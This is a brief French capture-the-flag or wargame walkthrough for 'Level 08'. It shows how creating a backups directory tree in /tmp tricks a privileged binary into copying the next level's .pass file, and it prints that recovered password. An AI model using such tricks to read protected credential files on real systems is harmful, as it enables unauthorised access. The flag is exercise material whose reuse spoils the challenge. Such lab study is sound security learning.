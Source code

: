 # Level 08

- Le fichier qu'on lit est reecrit dans le dossier backups
```
$> ~/level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```
- On comprends que l'executable ne peut pas creer les dossier necessaire
- On n'a pas les droit dans le home pour creer les dossiers
- Donc il suffit de creer les dossiers dans /tmp/
```
$> cd /tmp/
$> mkdir -p ./backups//home/users/level09/
```
- Puis de executer l'executable
```
$> ~/level08 /home/users/level09/.pass
$> cat backups/home/users/level09/.pass 
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```
